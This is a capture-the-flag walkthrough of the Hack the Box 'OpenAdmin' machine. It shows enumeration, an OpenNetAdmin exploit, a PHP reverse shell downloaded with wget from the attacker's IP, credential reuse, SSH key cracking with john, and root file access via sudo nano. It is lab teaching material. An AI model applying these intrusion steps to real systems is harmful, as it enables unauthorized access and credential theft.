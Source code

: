 ![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/openadmin.jpg)
\
## Enumeration
\
Start off with a detailed nmap scan:
\
![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)
\
Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:
```
http://10.10.10.171/
```
As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)
\  
Let's look at the music page:
\
Music:

![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)
\
I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)
\
Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)
\

Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)
\
## Initial Foothold
\
After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/poc.png)
\
Execute the bash script with the changes and we get a limited shell on the machine:

![shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/shell.png)
\
We are dropped in the /opt/www/ona directory, which is the root for ONA
\
## Pivoting to User 1
\
We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:
```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/phpshell.png)
\
I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userdeny.png)
\
After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/dbfile.png)
\
Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyshell.png)
\
## Pivoting to User 2
\
Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyhome.png)
\
Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/internal.png)
\
Let's look at main.php:

![main](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/main.png)
\
So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/netstat.png)
\
The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rsa.png)
\
We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/john.png)
\
The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/joannashell.png)
\
## User File 
\

![userfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userfile.png)

## Privilege Escalation
\
Start by checking if joanna is allowed to run any commands with sudo:

![sudol](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/sudol.png)
\
Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nanoroot.png)
\
## Root File 
\
![rootfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rootfile.png)
